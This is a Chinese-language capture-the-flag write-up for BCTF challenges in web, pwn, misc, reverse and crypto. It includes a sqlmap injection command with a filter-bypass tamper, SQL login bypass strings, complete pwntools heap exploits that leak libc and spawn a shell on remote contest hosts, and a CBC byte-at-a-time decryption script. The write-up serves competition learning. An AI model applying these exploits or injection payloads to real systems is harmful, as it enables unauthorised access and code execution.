

# WEB

## Signature - 666

题目已经关了，说说做题流程

github上面找到源码项目bbbccctttfff，看看里面的代码，在web/application/controllers/blog_bakcup_2014.php处有这么一段代码

```php
public function index()
    {
        $this->load->view('blog/v_blog_home_backup_2014');
        $this->session->set_userdata( array(  'logged_in' => 'yes' ) );
    }
```

于是我们就先访问这个页面然后再去访问别的页面就不需要登陆了。然后在admin页面处理userid处发现了sql注入点

```php
public function index()
    {
        $this->form_validation->set_rules('userid', 'Userid', 'required');
        if ($this->form_validation->run()) {
            $userid = $this->input->post('userid');
            if ($this->m_payment->waf($userid)) {
                if ($this->m_payment->get_by_userid($userid)) {
                    $this->data['query_success'] = 'Congraution!';
                } else {
                    $this->data['query_error'] = 'Wrong userid';
                }
            } else {
                $this->data['query_error'] = 'Illegal characters!';
            }
        }

        $this->load->view('admin/v_admin_home', $this->data);
        $this->load->view('template/v_admin_sidebar', $this->data);
    }
```

用户输入的userid经过了waf函数处理，但是waf函数的细节被删掉了，只能手动fuzz看看过滤了些什么，发现只过滤了空格符。然后上sqlmap，用名为space2comment的tamper绕过空格过滤，同时因为sqlmap默认会使用and而不是or而这里需要用or来进行布尔盲注，所以大致的sqlmap命令如下

```
python sqlmap.py -u "http://payment.bctf.xctf.org.cn/index.php/admin" --cookie "bctf_session=xxx" --user-agent "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:45.0) Gecko/20100101 Firefox/45.0" --data "userid='||1*#" --tamper space2comment --technique B --dbms mysql
```

最后的flag：bctf{Happyyyy_ENdiiiiiing}

## admin_only - 444 

登录忘记密码功能，用户名输入admin，查看源码有个md5

解密之后是admin的密码，在admin的cookie中发现md5解开是user

修改cookie中数据为admin的md5后访问页面，返回包中有个特殊字符串

在github上搜索得到一个用户名为该字符串的用户

在其GitHub上发现一个apk，反编译后有一段AES/ECB/PKCS5Padding的数据

解密后得到flag


## babysqli - 156

首先是一个登录界面，随手admin'#就能进，进去后题目说有四条信息可以购买，abcd试了一下，发现d就出了flag.

# PWN

## babyuse
use功能里面存在UAF漏洞，触发方式为先申请4把枪，并调用select输入一个合法的枪支编号，接着把申请的4把枪释放掉，这个时候再去调用use就可以触发漏洞，完整利用脚本如下：
```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *

slog = 0
debug = 0
local = 0

if local:
    p = process('./babyuse')
    libc = ELF('/lib32/libc.so.6')
else:
    p = remote('202.112.51.247',  3456)
    #libc = ELF('./libc.so')
    p.recvuntil('Token:')
    p.sendline('BwmDoZoJ9QjSFF65dgYP5eoNjGvoYl7K')

if slog: context.log_level = 'DEBUG'


def buy(gun_type, length, name):
    p.recvuntil('7. Exit')
    p.sendline('1')
    p.recvuntil('2. QBZ95')
    p.sendline(str(gun_type))
    p.recvuntil('Lenth of name：')
    p.sendline(str(length))
    p.recvuntil('Input name:')
    p.sendline(name)

def drop(index):
    p.recvuntil('7. Exit')
    p.sendline('6')
    p.recvuntil('Choose a gun to delete:')
    p.sendline(str(index))

def select(index):
    p.recvuntil('7. Exit')
    p.sendline('2')
    p.recvuntil('Select a gun')
    p.sendline(str(index))

def use(option):
    p.recvuntil('7. Exit')
    p.sendline('5')
    p.recvuntil('4. Main menu')
    p.sendline(str(option))

def rename(index, length, name):
    p.recvuntil('7. Exit')
    p.sendline('4')
    p.recvuntil('Choose a gun to rename:')
    p.sendline(str(index))
    p.recvuntil('Lenth of name：')
    p.sendline(str(length))
    p.recvuntil('Input name:')
    p.sendline(name)


buy(1, 0x50, 'a')
buy(1, 0x60, 'b')
buy(1, 2, 'c')
buy(1, 2, 'd')
select(2)
drop(0)
drop(1)
drop(2)
drop(3)
buy(1, 0x20000, 'a')

p.recvuntil('7. Exit')
p.sendline('5')
p.recvuntil('Select gun ')
leak_heap = u32(p.recv(4))
print 'leak_heap addr is', hex(leak_heap)

p.recvuntil('4. Main menu')
p.sendline('4')

heap_base = leak_heap - 0x20
buy(1, 0xf4, 'a' * 0xdc + p32(heap_base + 0x11c))

p.recvuntil('7. Exit')
p.sendline('5')
p.recvuntil('Select gun ')
leak_libc = u32(p.recv(4))
print 'leak_libc addr is', hex(leak_libc)


if local: 
    libc_base = leak_libc - 0x1b37b0
    system_addr = libc_base + libc.symbols['system']
else:
    libc_base = leak_libc - 0x1b27b0
    system_addr = libc_base + 0x3ada0

print 'sytem addr is ', hex(system_addr)

p.recvuntil('4. Main menu')
p.sendline('4')

drop(1)
buy(1, 0xf4, ('/sh\0' + p32(system_addr)).ljust(0xd8, 'a') + p32(heap_base + 0x28) + p32(heap_base + 0x11c) + ");/bin/sh")

if local and debug: gdb.attach(p, open('debug'))
p.recvuntil('7. Exit')
p.sendline('5')
p.recvuntil('4. Main menu')
p.sendline('2')

p.interactive()

```

## poisonous_milk
本题有两个漏洞：
put_milk 功能里面如果输入非程序定义的颜色会导致未定义指针引用，可以通过这个漏洞来泄露地址
```c
  do
  {
    v3 = (char *)*v2;
    if ( !strcmp(*v2, &s2) )
      v1->color = v3; 
    ++v2; //v1->color并一定会被赋值
  }
```
drink在free堆块后没有对milks指针置空，也就导致了UAF漏洞，利用时可以通过put_milk控制milks->head和milks->tail，接下来就可以构造任意堆块和free任意指针
```
  v7 = (std::ostream *)std::ostream::put((std::ostream *)&std::cout, v6);
  std::ostream::flush(v7);
  milks->head = 0LL;
  v8 = milks;
  milks->tail = 0LL;
  v8->top = 0LL;
  std::__ostream_insert<char,std::char_traits<char>>(
    &std::cout,
    "Huang Xudong has activated his magic and program will soon die for his poisonous milk :(",
    88LL);
```
完整的利用的代码如下：
```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *

slog = 1
debug = 1
local = 0

if slog: context.log_level = 'DEBUG'

if local:
    p = process('./poisonous_milk')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    p = remote('52.27.136.59', 6969)
    libc = ELF('./libc-2.23.so')
    p.recvuntil('Token:')
    p.sendline('BwmDoZoJ9QjSFF65dgYP5eoNjGvoYl7K')

def put_milk(flags, color):
    p.recvuntil('> ')
    p.sendline('put')
    p.recvuntil('flags (0-99):')
    p.sendline(flags)
    p.recvuntil('color:')
    p.sendline(color)

def view():
    p.recvuntil('> ')
    p.sendline('view')

def remove(index):
    p.recvuntil('> ')
    p.sendline('remove')
    p.recvuntil('index : ')
    p.sendline(str(index))

def drink():
    p.recvuntil('> ')
    p.sendline('drink')

def ljust(astr, length, padding = 'a'):
    return astr.ljust(length, padding)

for i in range(20):
    put_milk('1', 'atack')
view()

p.recvuntil('[17] [')
leak_heap = u64(p.recv(6).ljust(8, '\x00'))
print 'leak_libc is', hex(leak_heap)
p.recvuntil('[18] [')
leak_libc = u64(p.recv(6).ljust(8, '\x00'))
print 'leak_libc is', hex(leak_libc)

drink()
put_milk(p64(leak_heap - 0x120) + p64(leak_heap - 0x120 + 0x28), 'attack')

payload = p64(leak_heap + 0x40) + p64(leak_heap + 0x60) + p64(leak_heap + 0xb0) + p64(leak_heap + 0xd0) + p64(leak_heap + 0x10) + p64(leak_heap + 0xd0)
payload = payload.ljust(0x50, 'b')
put_milk(payload, 'red')

if local:
    libc_base = leak_libc - 0x398b68
else:
    libc_base = leak_libc - 0x3C3B88
system_addr = libc_base + libc.symbols['system']

log.info('system_addr is '+ hex(system_addr))
free_hook = libc_base + libc.symbols['__free_hook']

put_milk('d'*0x50, 'red')
payload  = p64(0) + p64(0x41)
payload += p64(0) + p64(0)
payload += p64(0) + p64(0x51)
payload += p64(0) + p64(0)
payload += p64(0) + p64(0x41)
put_milk(payload, "red")


put_milk(ljust(p64(0) + p64(0) + p64(0) + p64(0x61) + p64(0) + p64(0), 0x50), 'red')

remove(1)
remove(0)

log.info("fastbin attack")
put_milk('/bin/sh\x00'.ljust(0x10, 'a') + p64(0) + p64(0x51) + p64(0x61) + 'a'*0x8, 'red')
put_milk('\x00' * 0x40, 'red')
remove(1)
remove(0)
put_milk(ljust('a'*0x10 + p64(0) + p64(0x61) + p64(leak_libc - 0x50), 0x50), 'red')
put_milk(ljust(p64(0) + p64(leak_heap + 0x40), 0x50, '\x00'), 'red')

remove(0)

log.info("control main_arena->top")
put_milk(ljust(p64(0)*6 + p64(free_hook - 0xa90) + p64(leak_heap + 0xb0) + p64(leak_libc - 0x10)*2, 0x50, '\x00'), 'red')
for i in range(10):
    put_milk('\x00' * 0x50, 'red')
for i in range(4):
    put_milk('\x00' * 0x50, 'red')
put_milk('\x00' * 0x30, 'red')
for i in range(4):
    put_milk('\x00' * 0x50, 'red')

put_milk('\x00' * 0x30, 'red')
#view()
put_milk('\x00' * 0x20, 'red')
put_milk('\x00' * 0x20, 'red')
put_milk('\x00' * 0x20, 'red')
if local and debug: gdb.attach(p, open('debug'))
put_milk(ljust(p64(0)*6 + p64(system_addr), 0x50, '\x00'), 'red')
remove(0)
p.interactive()
```

# MISC

## foolme - 289

下载源码 然后审计

可以看出每一步服务器需要我们提交的东西

第一步是算md5

然后提交token什么都很简单

然后是提交一个base64加密的图片的数据

这个时候需要图片和给定图片的每一位像素不超过2的差异

同时后台对图片进行分类 还不能分到同一类

机智的学弟画龙点睛之笔就绕过了这一关

下面附上图片和攻击脚本


```python
# coding=utf-8

import re
from pwn import *
import hashlib
import base64
import struct
import os

HOST = '202.112.51.176'
PORT = 9999
BUFFER = 4096

def get_md5_value(src):
    myMd5 = hashlib.md5()
    myMd5.update(src)
    myMd5_Digest = myMd5.hexdigest()
    return myMd5_Digest

r = remote(HOST, PORT)
title = r.recv(BUFFER)
back = title.split('+"')[1][0:10]
check = title.split('==')[1][0:4]

for i in range(1,100000):
	if get_md5_value(str(i)+back)[:4] == check:
		print str(i),"#",back,"#",get_md5_value(str(i)+back)
		r.sendline(str(i))
		break
	if i % 10000 == 0:
		print i
then = r.recv(BUFFER)
r.sendline("XXX")

then = r.recv(BUFFER)
print then
print "================"
f = open("/home/pinko/Desktop/test.jpg","rb")
pic = f.read()
print len(pic)
r.sendline(base64.b64encode(pic))

then = r.recv(BUFFER)
print then

```

# Reverse

## pingpong - 555

拿到题之后解包, 整体上Java逻辑没有明显混淆, C层用了O-LLVM混淆, 但是代码量不大. 整体上没有加壳或者对完整性校验. 通过观察Java层逻辑, 要求我们依次点击ping pong两个按键, 共计100万次.

```Java
    public MainActivity() {
        super();
        this.p = 0;
        this.num = 0;
        this.ttt = 1000000;
        this.tt = this.ttt;
        this.jping = new com.geekerchina.pingpongmachine.MainActivity$1(this);
        this.jpong = new com.geekerchina.pingpongmachine.MainActivity$2(this);
    }

        public void onClick(View arg7) {
            if(MainActivity.this.tt % 2 == 1) {
                MainActivity.this.p = 0;
                MainActivity.this.num = 0;
                MainActivity.this.tt = MainActivity.this.ttt;
            }

            --MainActivity.this.tt;
            MainActivity.this.p = MainActivity.this.ping(MainActivity.this.p, MainActivity.this.num);
            ++MainActivity.this.num;
            if(MainActivity.this.num >= 7) {
                MainActivity.this.num = 0;
            }

            View v0 = MainActivity.this.findViewById(2131427414);
            ((TextView)v0).setText("PING");
            if(MainActivity.this.tt == 0) {
                ((TextView)v0).setText("FLAG: BCTF{MagicNum" + Integer.toString(MainActivity.this.p) + "}");
            }
        }

        public void onClick(View arg7) {
            if(MainActivity.this.tt % 2 == 0) {
                MainActivity.this.p = 0;
                MainActivity.this.num = 0;
                MainActivity.this.tt = MainActivity.this.ttt;
            }

            --MainActivity.this.tt;
            MainActivity.this.p = MainActivity.this.pong(MainActivity.this.p, MainActivity.this.num);
            ++MainActivity.this.num;
            if(MainActivity.this.num >= 7) {
                MainActivity.this.num = 0;
            }

            View v0 = MainActivity.this.findViewById(2131427414);
            ((TextView)v0).setText("PONG");
            if(MainActivity.this.tt == 0) {
                ((TextView)v0).setText("FLAG: BCTF{MagicNum" + Integer.toString(MainActivity.this.p) + "}");
            }
        }
```

在C层会发现sleep(1) 暂停一秒, 如果直接调用点击时间肯定不够, 因此将sleep一秒patch掉, 可以改为 mov r1, r1.
之后自己写一个包名和原程序相同的包, 依次调用ping 和pong 共计100万次, 随后输出结果.

一个示例的调用程序为:

```Java
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        int p = 0;
        int num = 0;

        p = pong(p, num);
        num ++;
        for(int tt = 1000000 - 1; tt != 0; --tt){
            if(tt % 2 == 0){
                p = ping(p,num);
                num ++;
                if(num >=7) num = 0;
            }else{
                p = pong(p, num);
                num ++;
                if(num >= 7) num = 0;
            }
        }
        //Log.e("yourdad", Integer.toString(p));
        ((TextView)findViewById(R.id.a)).setText(String.valueOf(p));
```

# Crypto

## Hulk - 400

这道题我们知道的内容有明文的前一部分，第一次加密的密文结果，第二次的IV、明文以及密文。由于cbc的特性，前一块加密的结果会当作后一块加密的初始向量IV，所以如果两块的IV和明文的异或结果一样，key也一样，那么他们加密后的密文也就一样。这里我们就可以构造第二次加密的输入，一字节一字节的爆破flag，怎么爆破方式见下。
第一次加密：



我们构造输入为31字节，这样第32字节就是flag的第一个字符。
第二次加密：


然后以第一次加密的密文结果的最后16字节作IV，对我们构造的明文进行加密，这里如果第二次加密的明文分组1和IV的异或值，等于第一次加密的明文分组2和密文分组1的异或值，那他们两块的密文结果肯定是一样的，所以我们爆破flag的第一字节，当两块密文一样时，就可以得到flag的第一个字节了，然后我们就可以爆破下一个字节。
经过测试，可以知道flag的长度是38字节，这里要注意分组加密的填充模式，如果刚好不用填充的话，会在明文后面填充16字节。所以如果第一次加密输入是10字节，加上38字节的flag，正好是16的整数倍，此时密文的结果为48+16=64字节，因为填充了16字节。
由于我们输入的长度要不大于48字节（96/2），所以我们最多可以构造三块输入，由于flag长度38字节，是两块多一点，所以我们爆破明文分组3，这样就比较方便，不用考虑flag移位的时候前面块长度不够情况了。
爆破脚本:

```python
from pwn import *
 
def hex2int(a):
    return int(a,16)
 
def int2hex(a):
    b = "%x" % a
    if(len(b)<32):
        b = b.rjust(32,'0')
    return b
flag = ""
for i in range(0,38):
    length = len(flag)/2
    for j in range(33,127):
        p = remote("202.112.51.217",9999)
        p.recvuntil("Give me the first hex vaule to encrypt: 0x")
        padding_len = 47 - length
        padding = padding_len*2*'0'
        p.sendline(padding)
        p.recvuntil("ciphertext: ")
        ciphertext1 = p.recvline()[2:-1]
        #a1:the second block of ciphertext
        a1 = ciphertext1[32:64]
        #a2:the third block of plaintext
        if(len(flag)<16):
            a2 = flag + hex(j)[2:]
            a2 = a2.rjust(32,"0")
        else:
            a2 = flag[-30:] + hex(j)[2:]
        #a3:the third block of ciphertext
        a3 = ciphertext1[64:96]
        #a4:the last block of ciphertext
        a4 = ciphertext1[-32:]
        #a5:the second input
        a5 = hex2int(a1)^hex2int(a2)^hex2int(a4)
        p.recvuntil ("Give me the second hex vaule to encrypt: 0x")
        p.sendline(int2hex(a5))
        p.recvuntil("ciphertext: ")
        ciphertext2 = p.recvline()[2:-1]
        p.close()
        if(ciphertext2[0:32]==a3):
            flag += hex(j)[2:]
            print flag
            break
 
print flag.decode("hex")
#bctf{3c1fffb76f147d420f984ac651505905}
```
